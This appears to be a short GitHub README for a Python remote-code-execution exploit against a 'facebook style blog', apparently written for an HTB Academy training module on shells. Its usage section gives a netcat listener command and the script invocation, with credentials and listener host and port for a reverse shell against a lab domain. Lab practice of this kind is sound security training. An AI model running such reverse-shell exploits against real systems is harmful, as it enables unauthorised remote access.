 # facebook-style-blog-rce
python based revshell exploit for facebook style blog for HTB academy shell module.

# Usage: 
start listner in one terminal window : 
nc -lnvp 4444

on another terminal window, execute below command : 
python3 facebook_styled_blog_rce.py http://blog.inlanefreight.local -u <username> -p <Password> --lhost <Listening Address> --lport 4444
